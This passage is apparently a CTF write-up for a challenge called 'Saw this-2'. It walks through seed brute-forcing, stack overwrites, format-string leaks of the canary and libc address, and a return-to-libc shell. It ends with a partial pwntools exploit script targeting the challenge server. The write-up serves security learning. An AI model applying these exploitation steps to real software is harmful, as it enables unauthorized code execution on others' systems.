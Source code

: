So now everytime we send a `lucky_number`, it has to be `0x0dbdbb1e` - `seed`. Since `v8` is set to 17 now, whenever we send the 17th number, `v8` will be modify to the number we send, which means we can control the iteration numbers, and so are the variables on the stack.  

Here are some important variables we'll have to modify (overwrite):
1. `v8`. The iteration number
2. `v10`. Overwrite it to **1** so we won't lose the game. 
3. `format`. Modify the pointer to the `user_name` buffer's address (`0x603108`). Now we can trigger the format string vulnerability.
    
Notice that other important variables (ex.`luck_number`) will have to remain the same value after you overwrite the stack. As for the format string payload, at first I try to use **%n** to write the memory, until I found that the service **won't let us input our user name for second time**. Since we can't reuse the vulnerability, I decided to leak the **stack canary** and the **return address** ( which returns to `__libc_start_main` ).

Now we have the stack canary and the libc address. We can use the libc address to calculate the libc's base address, and get the address of `system`, `pop rdi, ret` gadget and `/bin/sh` string pointer. After we have all the information, we can overwrite the stack canary and the return address to launch a return-2-libc attack.

To sum up, here's the exploitation of Saw this-2:
1. Brute-Force the `srand` seed so `v8`(the iteration number) can be set to `17`.
2. Overwrite `v7[16]` (=`v8`), so we can overwrite the variables on the stack.
3. Overwrite `format` to the `user_name` buffer so we can trigger the format string vulnerability.
4. Leak the stack canary & return address.
5. Use the return adress to calculate libc's base address, so we can get `system`, `pop rdi, ret` & `/bin/sh`'s address.
6. Overwrite the stack canary & return address to launch the return-2-libc attack.  


```python exp.py
from pwn import *
import time

HOST = "87.107.123.3"
PORT = 31337
libc = ELF("./libc.so.6")

guess = [124,34,77,-48,68,-36,70,-6,62,99,-86,66,17,58,77,11,53]

r = remote(HOST, PORT)

# name buffer address = 0x603108
# %21$p -0xfd - 0x1edb0 = libc_base
# %17$p = canary

#send name
print r.recvuntil("call you? ")
name = "%17$p.%21$p."
name = name.ljust(60, "A")
name = name.ljust(64, "B")
assert len(name) == 64
r.send(name)

# exploit PRNG
s = r.recvuntil("!\n")
print "s:", s
seed = u32(s[s.index(name)+64:s.index("!"):].zfill(4))
log.success("seed: "+hex(seed))
print r.recvuntil("on it: ")
lucky_number = 0x0dbdbb1e - seed
lucky_hex = hex(lucky_number & 0xffffffff)
lucky_str = lucky_hex[lucky_hex.index("0x")+2::].zfill(8)

assert len(lucky_str) == 8
```